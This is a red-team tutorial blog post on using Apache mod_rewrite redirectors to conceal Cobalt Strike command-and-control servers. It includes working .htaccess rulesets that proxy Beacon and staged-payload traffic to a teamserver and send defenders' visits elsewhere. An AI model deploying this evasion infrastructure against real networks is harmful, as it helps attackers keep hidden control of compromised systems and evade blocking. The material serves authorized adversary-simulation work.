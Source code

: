 ```yaml
---
layout: post
title: Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite
summary: How to set up a Command and Control redirector to only allow Cobalt Strike's C2 through. Uses Apache's rewrite module to handle the filtering.
tags: 
- mod_rewrite
- cobalt strike
image: /assets/apache/cobalt-strike-http-c2-demo.gif
---
```


Imagine you are performing a Red Team engagement. So far it's been very hard, fighting tooth and nail to get each step closer to totally owning their network. You finally get internal network access and things are stable. Everything looks good on your end, but on the Blue side of things IT is taking notice of traffic flowing to an unknown domain. A curious IT worker opens their browser and navigates to the site. 404 error. Suspicion++. Five minutes later your Beacons become unresponsive. You're blocked. Now you have to spin up some new infrastructure and get in again.

I am willing to bet we've all been in a similar situation at least once. One way we can reduce the risk of being caught is by using a redirector host to allow only command and control (C2) traffic reach our Cobalt Strike server and redirect all other traffic to an innocuous website, such as the target's site. A simple way to do this is using an Apache redirector as an intermediary server. Our C2 domain will point at the Apache redirector, which will perform the traffic filtering. An added benefit of using a separate host in this setup is if our domain is burned, our real Cobalt Strike team server's IP will still be useable. We can roll the redirector, get a new IP and domain, and be back in business. If we set up multiple callback domains in our Beacon payload, we won't even need to regain initial access.


# Infrastructure

You will need a fresh host to use as the Apache redirector. The host should be relatively easy to reconfigure with a new public IP. While a colo host will work, using a VPS is often an easier option. Keep in mind that all traffic used by Beacon will be received and sent back out (to your Cobalt Strike teamserver) by the host, so spec out the bandwidth and resources accordingly. Of course, the obligatory warning stands: make sure you understand your provider's Terms of Service and any applicable laws before using this for an engagement. 

Here is what our infrastructure will look like:
![Cobalt Strike HTTP C2 Redirector Infrastructure](/assets/apache/cobalt-strike-http-c2.png)


# Cobalt Strike

As you may expect, Cobalt Strike's Beacons use GET and POST requests for HTTP communications. Requests are made to URIs configured within the team server's Malleable C2 profile. Within the profile we can configure the request URIs, headers, parameters, and a number of other C2 options. I *highly* recommend reading the [documentation](https://www.cobaltstrike.com/help-malleable-c2) on Malleable C2 before using it; it's powerful! [@harmj0y's](https://twitter.com/harmj0y) post [A Brave New World: Malleable C2](http://www.harmj0y.net/blog/redteaming/a-brave-new-world-malleable-c2/) provides additional great insight.

For demonstration, we will use @harmj0y's Zeus Malleable C2 profile available [here](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/crimeware/zeus.profile). The profile configures Beacons to use the following C2 settings:

* user-agent: *Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; InfoPath.2)*
* HTTP GET URI: */metro91/admin/1/ppptp.jpg* 
* HTTP POST URI: */metro91/admin/1/secure.php*

To start Cobalt Strike with a Malleable C2 profile, use the following syntax:

```bash
./teamserver <Public IP> <password> </path/to/profile>
```

Make sure to configure your Cobalt Strike listeners and payloads to call out to your redirection domain(s), *spoofdomain.com* in our example. During a Red Team engagement, you will likely configure multiple callback domains

# Apache 

To set up Apache to use mod_rewrite, follow the first-time setup steps outlined in my [previous mod_rewrite post](https://bluescreenofjeff.com/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/). 


The way we configure our htaccess rules will depend on whether we need to support staged Beacons, such as [Scripted Web Delivery](https://www.cobaltstrike.com/help-scripted-web-delivery), or not. 

## HTTP C2 Redirection Ruleset

To only perform HTTP C2 redirection, place the following ruleset in a *.htaccess* file within the Apache web root:

```plaintext
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```

Replace *TEAMSERVER-IP* with the WAN IP of your Cobalt Strike team server. After saving the file, Apache will send requests for an approved URI with the user-agent configured in the Malleable C2 profile to our Cobalt Strike team server and redirect all other requests to *http://example.com/*. The question mark towards in line 7 ends the rewrite and redirects the user to exactly *http://example.com/*. If you want to retain the original request URI, delete the question mark.

Notice that the two expected HTTP URIs on line 4 are split by a pipe, enclosed in parentheses, and omit the leading forward slash. You can add other URIs the same way; this line is evaluated as a regular expression. Also note that the HTTP User Agent regex on line 3 requires all spaces, periods, and parentheses be escaped.

 
If you configure your Cobalt Strike listener to use a port other than port 80, you will need to configure Apache to [listen on that port](http://httpd.apache.org/docs/current/bind.html). By default on Debian, you can edit the port(s) Apache listens on in `/etc/apache2/ports.conf` and `/etc/apache2/sites-enabled/000-default.conf`. 


## HTTP C2 Redirection with Payload Staging Support
```plaintext
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/updates/?$
RewriteCond %{HTTP_USER_AGENT} ^$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteCond %{REQUEST_URI} ^/(metro91/admin/1/ppptp.jpg|metro91/admin/1/secure.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 6\.0;\ Windows\ NT\ 5\.1;\ SV1;\ InfoPath\.2\)?$
RewriteRule ^.*$ http://TEAMSERVER-IP%{REQUEST_URI} [P]
RewriteRule ^.*$ http://example.com/? [L,R=302]
```

New rules are added to lines 2 - 7. 

On line 2 the */updates/* URI is the URI configured in our Scripted Web Delivery. When the target host executes the web delivery command, it will first make a GET request to the configured URI with a blank HTTP User Agent. Lines 2 - 4 allow the request to be proxied to our teamserver. The next request the target host makes is GET to a random four character URI with the HTTP User Agent configured in the Malleable C2 profile. 

Lines 5 - 7 allow this second request through. It is possible that this pattern will change, so be sure to test your rulesets and makes changes accordingly to allow the full staging process to occur.


Here's a demo showing the C2 URL be visited by an end-user, running the Scripted Web Delivery command pulling from the same URL, and establishing a Beacon session through the redirector:
![Cobalt Strike HTTP C2 Redirector Demo](/assets/apache/cobalt-strike-http-c2-demo.gif)

# Summary

In a Red Team engagement, keeping core infrastructure hidden from defenders and flexible to change is crucial. Using Apache's mod_rewrite module we can obscure our command and control (C2) servers behind a VPS that is easily replaced. This way if a defender blocks our C2 domain and its IP, our fallback domains can be pointed to another VPS that proxies requests to the same teamserver used previously.


